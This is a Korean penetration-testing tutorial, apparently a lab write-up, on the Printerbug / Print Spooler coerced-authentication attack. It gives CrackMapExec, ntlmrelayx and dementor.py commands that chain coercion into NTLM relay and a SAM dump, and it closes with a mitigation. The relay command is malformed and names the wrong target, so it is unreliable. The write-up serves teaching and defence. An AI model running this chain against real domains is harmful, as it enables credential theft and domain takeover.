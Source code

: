 # MS-RPRN - Printerbug / Print Spooler

![](../../.gitbook/assets/print-spooler-rpc.drawio\(3\).png)

Printerbug (프린터버그) / Print Spooler RPC 강제 인증은 타겟 서버에서 실행중인 Print Spooler 서비스의 `RpcRemoteFindFirstPrinterChangeNotificationEx` RPC 함수를 이용하는 공격이다. 공격은 다음과 같은 단계로 이뤄진다:

1. 공격자는 취약한 RPC 함수 중 하나인 `RpcRemoteFindFirstPrinterChangeNotificationEx` 를 타겟 서버에게 요청한다. 이 함수는 타겟 서버에서 프린터와 관련된 변화가 일어날 시 클라이언트에게 알려주는 함수다.
2. 서버가 클라이언트가 RPC 함수를 실행했다는 것을 인지한다.
3. `RpcRemoteFindFirstPrinterChangeNotificationEx` 함수가 제대로 실행되려면 서버에서 클라이언트로 인증하고 접근 한 뒤, 클라이언트에게 알림 설정을 해줘야한다. 이 설정을 하기 위해 서버는 스스로 (하지만 사실상 클라이언트가 함수를 실행했으니 "강제"로) 공격자 클라이언트에게 서버 머신 계정 + Net-NTLMv1/v2 해시가 포함된 사용자 인증 패킷을 보낸다.
4. 공격자는 이 머신 계정의 사용자 인증 패킷을 Responder 와 같은 툴로 받는다.
5. 이후 이 머신 계정 이름 + Net-NTLMv1/v2 해시를 가지고 릴레이 공격, 다운그레이드 공격, RBCD 공격 등의 다양한 공격을 진행한다.

### 전제 조건

* 타겟 서버의 Print Spooler 서비스가 작동중이여야한다 - 윈도우 서버와 워크스테이션 운영체제에서는 기본적으로 활성화 되어있다.
* 도메인 유저 계정/문맥이 필요하다.

### 실습

* **DC01.choi.local (192.168.40.150)** - choi.local 도메인의 도메인 컨트롤러. 끔찍하게도 다른 도메인 컨트롤러의 로컬 관리자 권한을 갖고 있다.
* **DC1.pci.choi.local (192.168.40.160)** - pci.choi.local 도메인의 도메인 컨트롤러. 끔찍하게도 dc01.choi.local 에게 로컬 관리자 권한을 줬다.

![](<../../.gitbook/assets/image (127).png>)

도메인 컨트롤러가 다른 도메인의 도메인 컨트롤러 로컬 관리자 권한을 갖고 있는 것은 현실적이지 않은 시나리오다. 그와 동시에 실제 모의해킹 시 발견 가능성이 0%냐고 물어본다면 또 그렇지도 않은, 끔찍한 시나리오다.

이번 실습에서는 dc01.choi.local에게 프린터버그 강제인증 -> NTLM 릴레이 -> dc1.pci.choi.local 의 SAM 덤프를 해본다.

1.먼저 dc01.choi.local 이 프린터버그 에 취약한지, Spooler 서비스가 작동중인지 알아본다.

```
cme smb dc01.choi.local -u low -p 'Password123!' -d choi.local -M spooler
```

![Enabled! Spooler 서비스/RPC가 작동중이다.](<../../.gitbook/assets/image (110).png>)

2\. 프린터버그 강제 인증을 실행하기 전, NTLM 릴레이를 먼저 세팅한다.

```shell
python3 ntlmrelayx.py -t dc01.choi.local -smb2supportshel
```

3\. 프린터버그 강제 인증을 실행한다.

```
python3 dementor.py -u low -p 'Password123!' -d choi.local 192.168.40.182 192.168.40.150
```

4\. 결과를 확인한다.

dc01.choi.local (192.168.40.150) 에게 프린터버그 강제인증 실행 -> dc01의 머신계정 (`choi.local\dc01$`) 의 NTLM 인증 트래픽이 공격자 호스트에게 전달 -> 그것을 릴레이해서 dc1.pci.choi.local 에게 전달 -> `dc01.choi.local` 이 `dc1.pci.choi.local` 의 로컬 관리자 권한을 갖고 있었기 때문에 SAM 덤프.

![](<../../.gitbook/assets/image (131).png>)

### 대응 방안

강제 인증 공격을 가능케 해주는 Print Spooler 서비스는 프린트를 위한 서비스다. 수만명의 대기업 IT 인프라를 담당하는 도메인 컨트롤러 서를 물리적으로 방문해서 프린트를 한 적은 없을 것이다. 어디 데이터센터에 있는 도메인 컨트롤러에 비행기를 타고 가서 프린트를 하는 시스템 어드민 또한 본 적이 없다.

따라서 프린터버그 강제 인증을 막는 방법은 Spooler 서비스를 비활성화 시키는 것이다. 특정 기능을 비활성화 시키는 것은 고객사에게 잘 추천하지 않지만, 이 경우 진짜 도메인 컨트롤러에서 프린트를 하는 사람이 없기 때문에 비활성화해도 비즈니스 운영에 있어 아무런 영향을 미치지 않는다.

![프린트는 프린터에서 - 도메인 컨트롤러는 소중하다.](<../../.gitbook/assets/image (106).png>)

